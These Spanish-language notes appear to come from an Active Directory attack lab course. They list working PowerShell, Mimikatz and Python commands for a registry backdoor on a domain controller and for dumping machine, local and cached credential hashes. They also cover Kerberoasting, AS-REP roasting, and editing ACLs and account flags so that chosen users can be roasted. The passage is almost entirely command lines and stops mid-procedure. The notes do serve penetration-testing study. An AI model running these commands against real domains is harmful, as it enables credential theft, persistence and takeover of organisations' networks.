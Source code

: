 Para habilitar la posibilidad de usar PowerShell en vez de WMI
 ..* `Set-RemotePSRemoting -UserName student1 -ComputerName dcorp-dc -Verbose`
 ..* `Set-RemotePSRemoting -UserName student1 -ComputerName dcorp-dc -Remove` Para quitar los permisos del paso anterior

Para modificar el registro del CD y crear un backdoor que le permita al student1 sacar el hash del DC para por ejemplo hacer un silverticket:
..* `Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student1 -Verbose`
..* `Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose`
..* `Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose` Para sacar los hashes de los usuarios locales
..* `Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose` Para sacar las credenciales cacheadas

Kerberoast
--------------
Hay que buscar cuentas de usuario usadas como cuentas de servicio. Lo que hay que hacer es pedir un ticket de servicio al controlador y el te lo devuelve cifrado con la hash del servicio y despues de manera local podemos crakearlo.
Para buscar cuentas de usuario como cuentas de servicio con PowerView:
..* `Get-NetUser –SPN`
..* `Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName` Con el modulo de AD

Buscamos servicios que no tengan un Principal Name en null
..* `Add-Type -AssemblyName System.IdentityModel` 
..* `New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local" ` --> Pedimos el TGS del servidor dcorp-mgmt
..* `klist` --> para ver los tickets que tenemos
Podemos usar Request-SPNTicket from PowerView para crakear con Hashcat o Jonh de Ripper
..* `Invoke-Mimikatz -Command '"kerberos::list /export"'` --> Exportar tickets
..* `python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-student1@MSSQLSvc~dcorpmgmt.dollarcorp.moneycorp.localDOLLARCORP.MONEYCORP.LOCAL.kirbi`  --> *ThisisBlasphemyThisisMadness!!

Kerperoasting - AS-REPs
--------------------------
Kerberos tiene una opción de preautenticación que por defecto está activada y se puede abusar si está desactivada. Nos permite conseguir el hash ntlmv2 de un usuario. Se trata de bedir un TGT al KDC y despues crakearlo. Esto se ha corregido porque para solocitar el TGT ahora hay que cifrar un timestamp con las credenciales del usuario.
Con Powerview-dev enumerar usuarios que lo tengas desactivado:
..* `Get-DomainUser -PreauthNotRequired -Verbose`
Con AD module:
..* `Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth`
Con ASREPRoast-master/Invoke-SMBExec
..* `Get-ASREPHash -UserName VPN46user -Verbose` --> EL resultado se puede romper con Jonh de Ripper --> resultado Qwertyuiop123
Enumerar los usuarios a los que podemos cambiar las ACLs y desactivar la seguridad en el login y poder hacer el ataque.
..* `Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}`
Desactivamos:
..* `Set-DomainObject -Identity Control46User -XOR @{useraccountcontrol=4194304} –Verbose`
SI enumeramos otra vez lo vemos.
..* `Get-DomainUser -PreauthNotRequired -Verbose`
Volvemos a ver los permisos de los grupos con 
..* `Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}`
Los usuarios que tienen GenericAll son vulnerables.
MIramos el serviceprincipalname
..* `Get-DomainUser -Identity support46user | select serviceprincipalname`
..* `Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName`
Le asiganamos un serviceprincipalname, tiene que ser único en el dominio
..* `Set-DomainObject -Identity support46user -Set @{serviceprincipalname='ops/whatever46'}`
..* `Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='ops/whatever1'} `
Ahora podemos pedir un ticket a ese servicio